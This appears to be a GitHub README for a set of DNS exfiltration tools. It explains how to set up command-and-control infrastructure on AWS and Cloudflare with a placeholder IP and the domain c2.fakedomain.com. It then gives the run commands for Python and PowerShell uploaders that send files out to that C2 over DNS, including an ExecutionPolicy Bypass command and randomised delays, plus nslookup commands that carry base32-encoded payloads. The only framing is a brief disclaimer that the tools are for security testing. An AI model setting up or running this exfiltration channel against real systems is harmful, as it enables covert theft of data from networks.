 
# DNS Exfiltration Tools

**Disclaimer:**  
These tools are intended solely for **security testing purposes**. I am not responsible for any misuse of these tools. **Use responsibly**.

---

## Table of Contents
1. [Infrastructure Setup](#infrastructure-setup)
2. [Tool Usage](#tool-usage)
    - [dns_file_receiver.py (Unix - Server)](#dns-file-receiver-unix---server)
    - [dns_file_uploader.ps1 (Windows - Client)](#dns-file-uploader-windows---client)
    - [dns_file_uploader.py (Unix - Client)](#dns-file-uploader-unix---client)
    - [ns_dns_server.py (Unix - Server)](#ns-dns-server-unix---server)
3. [Base32 Payload Instructions for ns_dns_server.py (Client)](#base32-payload-instructions-for-ns_dns_serverpy-client)

---

## Infrastructure Setup

**Prerequisites:**
- You must own a domain and have an internet-connected server.
- Example setup uses AWS and Cloudflare.

**Server Information:**
- AWS VM IP: `123.123.123.123`
- Cloudflare Domain: `fakedomain.com`

**Cloudflare DNS Configuration:**
1. Create an NS record:  
   **Name:** `c2.fakedomain.com`  
2. Create an A record for C2:  
   **Name:** `c2`  
   **IPv4 address:** `123.123.123.123`  
3. Create an A record for `example.com`:  
   **IPv4 address:** `123.123.123.123`

---

## Tool Usage

### dns_file_receiver.py (Unix - Server)

1. Edit the `domain` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```
2. Adjust the `SOCKET_TIMEOUT` to an appropriate duration in seconds. This determines how long the script will stay active, waiting for client connections.

3. Run the script:  
   ```bash
   sudo python3 dns_file_receiver.py
   ```

### dns_file_uploader.ps1 (Windows - Client)

1. Update the `domain` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```
2. Run the script with PowerShell:  
   ```bash
   powershell -ExecutionPolicy Bypass -File .\dns_file_uploader.ps1
   ```
3. Follow the prompts:
    - **File path:** (quotes can be used)
    - **Domain OR IP:** Either the AWS server IP (`123.123.123.123`) or domain name (`fakedomain.com`)
    - **Random delay:** Set a random delay in seconds

### dns_file_uploader.py (Unix - Client)

1. Update the `DNS_SERVER` parameter to:  
   - AWS server IP (`123.123.123.123`) or domain name (`fakedomain.com`)

2. Update the `domain` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```

3. Run the script:  
   ```bash
   sudo python3 dns_file_uploader.py
   ```
4. Follow the prompts:
    - **File path:** (quotes can be used)
    - **Random delay:** Set a random delay in seconds

### ns_dns_server.py (Unix - Server)
**IMPORTANT NOTE:**
- Requires base32 payload: Instructions for that below.
[Base32 Payload Instructions for ns_dns_server.py (Client)](#base32-payload-instructions-for-ns_dns_serverpy-client)

1. Update the `DOMAIN` parameter in the script to:  
   ```bash
   c2.fakedomain.com
   ```
2. Optionally, update the `fake_ip` parameter if needed.

3. Run the script:  
   ```bash
   sudo python3 ns-dns_server.py
   ```

---

## Base32 Payload Instructions for ns_dns_server.py (Client)
**IMPORTANT NOTE:**
- **Maximum Length of a DNS Label:** Each label (subdomain) in a DNS name can be up to 63 characters.
- **Maximum Length of the Entire Domain Name:** The full domain name (including all labels and dots) can be a maximum of 253 characters.

1. Use [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base32('A-Z2-7%3D')) to create a Base32 payload.
   
2. Use `dns_length_calc.py` to ensure that the lengths are valid. Follow the prompts.
   ```bash
   python3 dns_length_calc.py
   ```
   - Example:
   ```bash
   Enter subdomain: KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY
   Enter full domain (e.g., example.com): c2.fakedomain.com
   Subdomain length: 31 characters (Valid)
   Full domain length: 49 characters (Valid)
   ```
   
3. Once the payload is generated, use `nslookup` to test the server:  
   ```bash
   nslookup <payload>.c2.fakedomain.com
   ```

**Example:**

- **Input:**  
   ```
   TESTING TESTING 123
   ```
- **Output:**  
   ```
   KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY=
   ```

- **Command:**  
   ```bash
   nslookup KRCVGVCJJZDSAVCFKNKESTSHEAYTEMY.c2.fakedomain.com
   ```
  **EXTRA NOTE:**
  - The '=' is added by the script when it tries to decrypt it.
---

**Note:** All other tools not documented here are works in progress.
